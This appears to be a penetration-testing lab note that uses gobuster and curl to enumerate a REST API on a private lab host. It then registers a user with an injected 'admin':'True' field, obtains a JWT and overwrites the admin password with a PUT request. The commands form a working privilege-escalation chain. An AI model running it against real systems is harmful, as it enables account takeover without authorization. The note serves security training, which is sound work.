 
In many cases, our penetration test target is an internally-built, closed-source web application that is shipped with a number of _Application Programming Interfaces_ (API).
These APIs are responsible for interacting with the back-end logic and providing a solid backbone of functions to the web application.

\*REST - _Representational State Transfer_
	Specific type of API used for authentication and a variety of other purposes.


- API paths are often followed by a version number:
	```html
	/api_name/v1
	```
- API names are quite descriptive about the feature or data it uses to operate
- Navigating to /ui can show the API's documentation
- Can use GoBuster to brute force API endpoints using a fuzzing pattern:
```bash
cat > pattern
	{GOBUSTER}/V1
	{GOBUSTER}/V2
	#Ctrl D
```
	In this example, we are using the "{GOBUSTER}" placeholder to match any word from our wordlist, which will be appended with the version number.

Then brute force
```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://192.168.50.16:5001
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
	[+] Patterns:                pattern (1 entries)
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/04/06 04:19:46 Starting gobuster in directory enumeration mode
	===============================================================
	/books/v1             (Status: 200) [Size: 235]
	/console              (Status: 200) [Size: 1985]
	/ui                   (Status: 308) [Size: 265] [--> http://192.168.50.16:5001/ui/]
	/users/v1             (Status: 200) [Size: 241]           <--- note
```
	2 interesting entries:  /books/v1 and users/v1.

Can use [curl](OS%20Commands.md#curl) to inspect
```bash
curl -i http://192.168.50.16:5002/users/v1
	HTTP/1.0 200 OK
	Content-Type: application/json
	Content-Length: 241
	Server: Werkzeug/1.0.1 Python/3.7.13
	Date: Wed, 06 Apr 2022 09:27:50 GMT
	
	{
	  "users": [
	    {
	      "email": "mail1@mail.com",
	      "username": "name1"
	    },
	    {
	      "email": "mail2@mail.com",
	      "username": "name2"
	    },
	    {
	      "email": "admin@mail.com",
	      "username": "admin"            <--- note
	    }
	  ]
	}
 ```

Can then use a smaller wordlist to brute force the admin user:
```bash
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
	...
	===============================================================
	2022/04/06 06:40:12 Starting gobuster in directory enumeration mode
	===============================================================
	/email                (Status: 405) [Size: 142]
	/password             (Status: 405) [Size: 142]    <--- note
```

Again using curl:
```bash
curl -i http://192.168.50.16:5002/users/v1/admin/password
	HTTP/1.0 405 METHOD NOT ALLOWED
	Content-Type: application/problem+json
	Content-Length: 142
	Server: Werkzeug/1.0.1 Python/3.7.13
	Date: Wed, 06 Apr 2022 10:58:51 GMT
	
	{
	  "detail": "The method is not allowed for the requested URL.",
	  "status": 405,
	  "title": "Method Not Allowed",      <--- note
	  "type": "about:blank"
	}
```
	Notice the 405 NOT ALLOWED response.  Likely, curl's default GET needs to be changed to a POST or PUT


IF this specific API permits POST and/ or PUT methods, we could override the user creds (in this case, admin's pw).
First, verify whether or not the overwritten creds are accepted...

Check if the *login* method is supported by extending the base URL:
```bash
curl -i http://192.168.50.16:5002/users/v1/login
	HTTP/1.0 404 NOT FOUND
	Content-Type: application/json
	Content-Length: 48
	Server: Werkzeug/1.0.1 Python/3.7.13
	Date: Wed, 06 Apr 2022 12:04:30 GMT
	
	{ "status": "fail", "message": "User not found"}    <--- note
```
	Notice how the 404 refers to the User not being found.


So, the status message is, ultimately, a clear sign that the API itself exists (& likely the login as well)
Need to find a proper way to interact with it.

Can attempt a login with the 'admin' username and a dummy password to test whether our strategy makes sense.
- Convert the GET request into a POST
- Provide payload in the required JSON format (via **-d** data switch)
- Specify "json" as the "Content-Type" (via **-H** header switch)
```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	{ "status": "fail", "message": "Password is not correct for the given username."}
```

This specific authentication failure error means the API parameters are wrong, but correctly formed.
As we don't know the admin's password, we can try to see if **registering** a new user would work instead
- Provides a different attack surface.
```bash
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

	{ "status": "fail", "message": "'email' is a required property"}
```

Status message shows that:
- API has a Register method we can interact with
- Our parameters are correctly formed though lacking an 'email' property
- We can potentially determine if there's also an 'admin' property we can abuse.

Let's add an 'admin' key attached to a 'True' value to see if we can now grant our new user admin rights as well:
```bash
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

	{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
```


Status message doesn't error out and tells us we're successful in registering a new user with admin rights.
Now, let's attempt to login with our new creds using the 'login' API we discovered working earlier:
```bash
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
```

Success
- Not only were we able to correctly login, we also retrieved a JWT auth token!
- We should use this token to change the admin user's password
	- Force a POST request that targets that password API discovered earlier
```bash
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

	{
	  "detail": "The method is not allowed for the requested URL.",
	  "status": 405,
	  "title": "Method Not Allowed",
	  "type": "about:blank"
	}
```


Again, another 405 Method Not Allowed.
Try PUT (used to replace a value rather than create one) instead:
```bash
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```


No error message mentioned, so assume no error's been thrown.
Test by logging in as 'admin' with the newly-changed pw:
```bash
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
```

Proof of logical privilege escalation bug present in the registration API.
- Happens.  Often due to lack of testing and secure coding best practices.